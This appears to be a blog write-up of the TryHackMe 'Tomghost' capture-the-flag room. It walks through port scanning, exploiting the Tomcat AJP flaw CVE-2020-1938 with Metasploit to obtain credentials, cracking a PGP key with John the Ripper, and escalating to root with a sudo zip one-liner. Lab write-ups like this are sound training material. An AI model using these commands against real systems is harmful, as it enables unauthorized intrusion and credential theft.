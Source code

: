 ```yaml
---
layout: post
permalink: /posts/thm/tomghost
title: "Tomghost"
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. <br/>

Let's scan the target machine for open ports with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/tomghost/nmap.png)

There are open ports 22, 53 8009 and 8080. Go and visit the website.

![website](/assets/images/thm/tomghost/website.png)

It's Apache Tomcat. I tried to scan for any hidden directories with gobuster

```
gobuster dir -u http://10.10.59.117:8080/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster](/assets/images/thm/tomghost/gobuster.png)

Unfortunately I didn't find anything useful. I wasn't sure what is the service running on port 8009. So I just googled `Apache Jserv` and found an exploit for it `CVE-2020-1938` `https://www.exploit-db.com/exploits/49039`. I learnt that using metasploit we'll be able to read files deplyed on Tomcat. Start Metasploit and execute `search ajp` 

![ms-search](/assets/images/thm/tomghost/ms-search.png)

We are going to use the auxiliary module.

![ms-options](/assets/images/thm/tomghost/ms-options.png)

Looking for the options we see that we need to provide the target machine IP.

```
set RHOSTS <IP>
```

Now just execute the `run` command.

![ms-result](/assets/images/thm/tomghost/ms-result.png)

We found credentials. Let's try to ssh with them.

```
ssh skyfuck@<IP>
```

![skyfuck-ls](/assets/images/thm/tomghost/skyfuck-ls.png)

There are two files and I wasn't sure what can I do with them so I just look for the first flag.

```
find / -name user.txt
```

![find](/assets/images/thm/tomghost/find.png)

Well, we have found the flag and also we found that there is another user `merlin`. I tried to check whether our current user has any root permisson to execute commands `sudo -l` but unfortunately skyfuck he has no any rights to execte commands as root.

![skyfuck-sudo](/assets/images/thm/tomghost/skyfuck-sudo.png)

So I decided to go back to the files we had found in skyfuck directory. I researched for what is pgp, it stands out for Pretty Good Privacy and it is used to encypt files. After some additional research we found that we can brute force the key `tryhackme.asc`  but first we have to convert it to hash and John the Ripper has the perfect script for that purpose `gpg2john`. We can use SSH to download the files.

```
scp skyfuck@<IP>:credential.pgp .
scp skyfuck@<IP>:tryhackme.asc .
```

The dot in the end means the current directory. Now let's convert the key

```
gpg2john tryhackme.asc > hash.txt
```

![hash](/assets/images/thm/tomghost/hash.png)

We have the hash, let's crack it.

```
john hash.txt --wordlist=rockyou.txt
```

![john](/assets/images/thm/tomghost/john.png)

Now we need to import the key and decrypt the pgp file

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp > cred.txt
```

![merlin-creds](/assets/images/thm/tomghost/merlin-creds.png)

Now we have merlin credentials. Go back to te target machine and switch the user `su merlin`. Let's see whether merlin has any right to execute commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/tomghost/sudo-l.png)

We are in luck. Visit `https://gtfobins.github.io/gtfobins/zip/` and see how we can escalate our priviliges using `zip` command

![gtfo](/assets/images/thm/tomghost/gtfo.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

![root](/assets/images/thm/tomghost/root.png)

Yey... we were able to get root access.
